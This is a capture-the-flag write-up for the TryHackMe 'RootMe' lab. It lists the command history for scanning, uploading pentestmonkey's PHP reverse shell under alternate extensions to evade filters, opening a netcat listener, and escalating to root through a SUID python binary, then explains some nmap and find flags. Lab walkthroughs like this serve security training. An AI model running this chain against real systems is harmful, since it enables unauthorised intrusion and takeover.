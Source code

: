 
**Room completed!**

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/TryHackMe%20-%20RootMe.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP} > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `firefox http://{TARGET IP}/panel`
6. `git clone https://github.com/pentestmonkey/php-reverse-shell`
7. `cd php-reverse-shell`
8. `ls`
9. `sudo gedit php-reverse-shell.php`
10. `nc -lvnp {PORT NUMBER}`
11. `cp php-reverse-shell.php php-reverse-shell.phtml`
12. `cp php-reverse-shell.php php-reverse-shell.php3`
13. `cp php-reverse-shell.php php-reverse-shell.php4`
14. `cp php-reverse-shell.php php-reverse-shell.php5`
15. `cp php-reverse-shell.php php-reverse-shell.phps`
16. `firefox http://{TARGET IP}/uploads`
17. `whoami`
18. `find / -type f -name user.txt 2>/dev/null`
19. `cat {USER.TXT FILE PATH}`
20. `sudo -l`
21. `python -c ‘import pty; pty.spawn(“/bin/bash”)’`
22. `sudo -l`
23. `find / -perm -u=s -type f 2>/dev/null`
24. `firefox https://gtfobins.github.io/gtfobins/python/`
25. `sudo python -c 'import os; os.system("/bin/sh")'`
26. `whoami`
27. `find / -type f -name root.txt 2>/dev/null`
28. `cat {ROOT.TXT FILE PATH}`

# Dissecting Some Commands
`nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
+ `-sC` enables the use of default scripts during the scan, which runs a set of commonly used scripts against the target IP to try to find any vulnerabilities
+ `-sV` enables version detection, which attempts to determine the sevice and version information of the open ports
+ `> {FILENAME1}.txt` redirects the results into a text file


`find / -type f -name user.txt 2>/dev/null`
+ `/` specifies the starting directory to be the root directory
+ `-type f` specifies that it should only search for regular files
+ `-name user.txt` specifies to search for a file called user.txt
+ `2>/dev/null` redirects error output (stderr) to the null device ensuring that any error message encountered during the search are suppressed and not displayed on the terminal
